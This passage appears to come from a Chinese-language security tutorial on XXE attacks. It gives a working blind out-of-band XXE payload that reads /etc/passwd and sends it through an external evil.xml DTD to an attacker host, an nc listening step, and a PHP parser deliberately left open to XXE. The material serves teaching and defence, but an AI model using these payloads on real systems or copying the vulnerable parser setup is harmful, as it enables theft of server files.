 于是考虑内部实体嵌套的形式： 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///c:/1.txt">
<!ENTITY % param2 "<!ENTITY % param222 SYSTEM'http://127.0.0.1/?%param1;'>">
%param2;
]>
<root>

```

但是这样做行不通，原因是不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。 

![1547388859468]({{site.baseurl}}/assets/images/审计/1547388859468.png)

解决方案是：

将嵌套的实体声明放入到一个外部文件中，这里一般是放在攻击者的服务器上，这样做可以规避错误。

如下：

payload

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % remote SYSTEM "http://192.168.100.1/evil.xml">
%remote;
%all;
]>
```

【evil.xml】 

```
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.100.1/?file=%file;'>">

```

nc -lvv port 监听即可获得请求回显内容

### 6.2 XXE利用

示例无回显读取本地敏感文件（Blind OOB XXE）：

此部分演示借用php中XXE进行说明

xml.php

```xml
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```
